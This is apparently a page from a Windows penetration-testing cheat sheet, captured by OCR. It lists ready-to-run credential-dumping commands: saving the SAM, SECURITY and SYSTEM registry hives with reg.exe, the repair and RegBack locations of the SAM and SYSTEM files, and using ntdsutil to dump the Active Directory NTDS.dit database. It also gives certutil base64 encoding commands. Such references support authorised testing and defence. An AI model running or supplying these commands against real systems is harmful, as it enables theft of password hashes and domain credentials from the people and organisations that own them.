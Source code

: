<span id="anchor-276"></span>Crypto Commands

<span id="anchor-277"></span>Base64 Encode a File

|                                                           |
| --------------------------------------------------------- |
| certutil.exe -encode **\<inputfile\>** **\<outputfile\>** |

<span id="anchor-278"></span>Base64 Decode a File

|                                                           |
| --------------------------------------------------------- |
| certutil.exe -decode **\<inputfile\>** **\<outputfile\>** |

<span id="anchor-279"></span>Credential Commands

<span id="anchor-280"></span>Dumping Registry Hives (System User)

<table>
<tbody>
<tr class="odd">
<td>reg.exe save hklm\sam c:\temp\sam.save<br />
reg.exe save hklm\security c:\temp\security.save<br />
reg.exe save hklm\system c:\temp\system.save</td>
</tr>
</tbody>
</table>

<span id="anchor-281"></span>Dumping Windows Repair SAM & System
(Windows XP, System User)

<table>
<tbody>
<tr class="odd">
<td><p>C:\Windows\Repair\SAM</p>
<p>C:\Windows\Repair\SYSTEM</p></td>
</tr>
</tbody>
</table>

<span id="anchor-282"></span>Dumping Windows Repair SAM & System
(Windows 7, System User)

<table>
<tbody>
<tr class="odd">
<td><p>C:\windows\system32\config\RegBack\SAM</p>
<p>C:\windows\system32\config\RegBack\SYSTEM</p></td>
</tr>
</tbody>
</table>

<span id="anchor-283"></span>Dump Active Directory NTDS.dit with
NTDSUTIL

|                                                                              |
| ---------------------------------------------------------------------------- |
| ntdsutil “activate instance ntds” “IFM” “create full **\<outputfile\>**” q q |
